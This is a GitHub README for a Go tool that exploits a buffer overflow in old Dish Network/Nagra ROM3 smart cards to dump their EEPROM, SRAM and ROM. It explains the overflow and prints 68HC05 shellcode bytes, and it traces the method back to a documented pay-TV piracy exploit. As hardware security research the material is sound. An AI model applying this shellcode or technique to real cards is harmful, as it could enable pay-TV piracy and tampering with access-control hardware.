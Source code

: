 Howdy y'all,

This package is a tool for ancient Dish Network and Nagra smart cards.
On ROM3 Revision 272 and earlier, it uses a memory corruption exploit
to dump most regions of memory, such as the EEPROM.

It uses a standard USB smart card reader through the PCSC library,
using [go-card](https://github.com/sf1/go-card) as an abstraction
library.

A billion thanks are due to Chris Gerlinsky, who introduced me to this
bug over beers in Montréal.  Without his storytelling or his generous
sharing of documentation, I never would have gotten this working.

--Travis Goodspeeed

![Nipper is a buttlicker.](nipper.png)

## Building

After installing PCSC and its daemon, just run `go build` to produce
an executable.  I only tested this on Linux, but it ought to also work
on Windows.

## Usage

```
dell% ./nippertool -help
Usage of ./nippertool:
  -dumpall string
        Downloads all of memory to a .bin file.  (Will fail.)
  -dumpeeprom string
        Downloads EEPROM from $E000 to a .bin file.
  -dumpram string
        Downloads SRAM from $0020 to a .bin file.
  -dumprand string
        Downloads RNG samples to a .bin file.
  -dumprom string
        Downloads User ROM from $4000 to a .bin file.
  -dumpsysrom string
        Downloads System ROM from $2000 to a .bin file. (Will fail.)
  -peek int
        Prints a block from a hex address. (default -1)
  -progress
        Interactive progress meter. (default true)
  -verbose
        Verbose output for debugging.
dell% ./nippertool 
Nippertool by Travis Goodspeed
A Tool for Antique Smart Cards

ROM:    DNASP003
Rev:    Rev369
Serial: 5613611
dell% 
```


## Debugging

Smart card readers like to hop between data rates.  You can run PCSCd
in the foreground with APDU logging to get a little extra visibility
into the process.

```
sudo killall pcscd
sudo pcscd --foreground -a
```

Remember that PCSCd requires the reply to have a proper header and
checksum.  If your reply is malformed, it might not appear in the log
at all.

## How the Exploit works

ROM3 Rev272 and earlier are missing a check on the length of a smart
card transaction.  Some tampered cards will report a later revision,
but do not include the patch that closes the vulnerability.

The transaction buffer is the very last 100 bytes of SRAM.
SRAM is mirrored, so it exists at `0x0020`, `0x0220`, `0x0420` and
many other locations.  When the buffer runs past the end of SRAM,
the data continues to overwrite the global variables, eventually
overwriting the buffer's index to then jump to overwriting the call
stack.  A return pointer callstack is then overwritten with `0x0060`,
the entry point of our shellcode.

My shellcode looks roughly like this, in 68HC05 machine language:

```
//This is the entry point for our shellcode.
0x9d, 0x9d, 0x9d, 0x9d, //NOPs

//Data begins at 0x19C+2.
0xAE, 0x21, //LD X, 0x20 ;
0x9d, 0x9d, //NOPs
//loop:
0xD6, 0xFF, 0xFF, //LD A, (target+1,X)  //Load the byte from the source buffer.
0xD7, 0x01, 0xA1, //STA (0x019C+1,X)  //Store the byte to the data buffer.
0x5A,       //DEC X
0x2A, 0xF6, //JRPL loop

//NOPs to keep alignment.
0x9d,

//Sends some data from the IO buffer.
0xa6, 0x93, //LDA #$93, response code
0xae, 0x40, //LDX #$17, length in data bytes
0xCD, 0x75, 0x7F, //JMP RESPONDAX to send the response.

//These three bytes will be clobbered.  Don't rely on them.
0x00, 0x00, 0x00,
//These bytes set the entry point of 0x0060
0x00, 0x00, 0x00, 0x60,
```

I haven't yet managed to patch this shellcode for clean continuation,
so instead I reboot the card between transactions.

My attack string is based upon the famous Nipper Clauz exploit, which
you can find in Echostar v. NDS as [Plaintiff's Exhibit
511A](http://www.murdochspirates.com/Pirates/Echostar/court/exhibits/TEX0511A.pdf).
Where the original shellcode disabled interrupts to dump all of EEPROM
out the serial port, my shellcode returns 32 bytes from an arbitrary
start address in a properly formatted PCSC transaction.

Two more exploits for this bug are available in the Headend Project
Report, [Plaintiff's Exhibit
98](http://www.murdochspirates.com/Pirates/Echostar/court/exhibits/TEX0098.pdf).
This internal report by David Mordinson at NDS is excellent writing,
and you'd do well to print and study it.  I chose to fork the Nipper
Clauz exploit instead of those in the Headend Report because I wanted
to re-use the ROM's own transmit function.  The Headend exploits place
their shellcode at the beginning of this buffer, preventing its reuse
for transmission.


## Limitations on System ROM Access

My tool can dump registers, SRAM, User ROM, and EEPROM, but the
ST16CF54 has a memory firewall that prevents code in SRAM from reading
code in the System ROM at 0x2000.  Code in System ROM can read itself,
and I'm able to call that code, but the 68HC05 machine language and
its 8-bit Accumulator and Index registers do not easily express ROP
gadgets that would fetch an arbitrary 16-bit pointer.

## Port to ROM2

This exploit is for ROM3 revisions up to 272.  ROM2 cards contain the
same bug, but the ROMs are quite different and shellcode would need to
be unique to each ROM.

## Random Numbers

The ST16CF54 contains a 16-bit hardware random number generator.
Dumping a few megabytes of these RNG values shows that the values are
not very random, most likely an LFSR run at a slightly different clock
rate from the CPU.

I don't see much of use of this in Nagra's ROM, but it's possible that
it could be used to exploit another smart card based upon the same
ST16 chip.


